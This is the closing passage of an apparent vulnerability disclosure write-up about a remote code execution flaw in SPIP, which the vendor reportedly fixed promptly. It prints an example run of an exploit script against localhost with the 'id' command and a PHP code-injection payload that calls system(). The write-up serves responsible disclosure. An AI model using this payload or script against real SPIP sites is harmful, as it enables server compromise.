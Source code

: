 ```python
    main()

"""
[~/Desktop/autre]$ python3 0day_rce_spip.py -t http://localhost:8000 -c id    
uid=1000(vozec) gid=1000(vozec) groupes=1000(vozec),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),114(lpadmin),995(input)

[~/Desktop]$ echo -ne "name=\"RCE['.system('id').die().']\";" | md5sum
9fd0828be2a9d90e89e226f1fcd6d5d9  -
"""
```

## Closing Words

Spip reacted in a timely manner, no timeline this time! Oh yeah, one last thing... 🙃

> Nailed it! 😎

[acknowledgement](./img/rce-rootme-acknowledgement.png)

---

As always, we hope you've had a nice time reading our adventures! 🧙\
Feel free to follow both of us for future challenges & cool reads! 💝

[us](./img/lalu-and-vozec.png)
